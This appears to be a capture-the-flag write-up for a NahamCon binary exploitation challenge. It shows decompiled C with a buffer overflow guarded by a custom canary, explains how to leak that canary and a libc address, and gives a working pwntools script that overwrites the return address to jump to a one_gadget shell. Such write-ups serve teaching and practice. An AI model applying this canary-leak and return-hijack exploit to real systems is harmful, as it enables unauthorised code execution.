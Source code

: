 Code:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  setup(argc, argv, envp);
  v5 = (unsigned __int64)&printf ^ 0x123456789ABCDEF1LL;
  saved_canary = (unsigned __int64)&printf ^ 0x123456789ABCDEF1LL;
  memset(s, 0, sizeof(s));
  puts("Do you think you can overflow me?");
  read(0, s, 0x40uLL);
  puts(s);
  memset(s, 0, sizeof(s));
  puts("Are you sure you overflowed it right? Try again.");
  read(0, s, 0x40uLL);
  if ( v5 != saved_canary )
  {
    puts("Nope. :(");
    exit(0);
  }
  return 0;
}
```
There is an obvious buffer overflow here. in order to make it harder to exploit, the binary implements some kind of stack canary to defend the return pointer.
it takes printf libc address, and xors it with 0x123456789abcdef1, and stores is right after our buffer.
BUT, unlike normal stack canaries, this canary doesn't starts with a null byte. this means we can print it.
We can enter 40 bytes, and then we'll reach the canary, and the puts will print the all 40 bytes + canary, until it tackles a null byte:
```
p.send('a' * 40)
p.recvuntil('a' * 40)

canary = u64(p.recvn(8))
print(hex(canary))
```
Now we are promted to another buffer overflow. we can now xor the canary with 0x123456789abcdef1, and retrieve printf address, and get a libc leak.
then we can just jump to a one_gadget and win.

```py
from pwn import *
p = remote('challenge.nahamcon.com', 32735)

p.recvuntil('me?')
p.send('a' * 40)

p.recvuntil('a' * 40)

canary = u64(p.recvn(8))

libc = (canary ^ 0x123456789abcdef1) - 0x64f70

p.recvuntil('again.')

p.sendline(40 * b'A' + p64(canary) + b'b' * 8 + p64(libc + 0x10a41c))

p.interactive()
```
